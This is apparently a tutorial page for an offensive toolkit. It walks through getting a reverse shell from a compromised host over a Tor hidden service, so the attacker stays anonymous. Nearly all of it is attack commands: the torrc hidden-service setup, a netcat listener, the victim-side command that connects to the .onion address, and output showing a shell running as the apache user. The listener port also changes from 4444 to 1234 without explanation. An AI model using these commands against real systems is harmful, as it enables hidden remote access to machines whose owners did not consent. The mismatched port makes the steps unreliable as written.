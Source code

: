 # Gaining access with reverse-shell-over-tor

{% hint style="warning" %}
We assume that **we are able to execute commands in Victim1** in some way.
{% endhint %}

In order to obtain a reverse shell preserving anonymity, we will use **reverse-shell-over-tor** from **Offensive Tor Toolkit**. As shown in the following illustration, the attacker will publish a Hidden Service so that the victim can send the reverse shell to it.

![Reverse shell over Tor](https://atorrescogollo.github.io/geekdoc/posts/static/offensive-tor-toolkit/02_reverse-shell-over-tor.png)

## 1. Hidden Service and handler

The attacker will publish a **Hidden Service** so that the attacker can start a connection:

```text
[attacker]$ grep '^HiddenService' /etc/tor/torrc
HiddenServiceDir /tmp/tortest
HiddenServicePort 4444 127.0.0.1:4444

[attacker]$ cat /tmp/tortest/hostname
m5et..jyd.onion

[attacker]$ tor -f /etc/tor/torrc
```

In order to handle the connection, the attacker will start a **listener** with netcat:

```text
[attacker]$ nc -lvnp 4444
```

## 2. Victim connects to the Hidden Service

We have to launch a reverse shell from the Victim to the Hidden Service. The tool we need is **`reverse-shell-over-tor`** . The only parameter we need is the address and port in which the Hidden Service is listening.

```text
[victim1]$ ./reverse-shell-over-tor -listener m5et..jyd.onion:4444
```

## 3. The handler receives the shell

Once the victim connects with `reverse-shell-over-tor` , a `/bin/sh` shell is launched.

```text
[attacker]$ nc -lvnp 1234
...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

{% hint style="info" %}
The attacker could change the shell binary by using the **parameter `-reverse-shell-program`**.
{% endhint %}

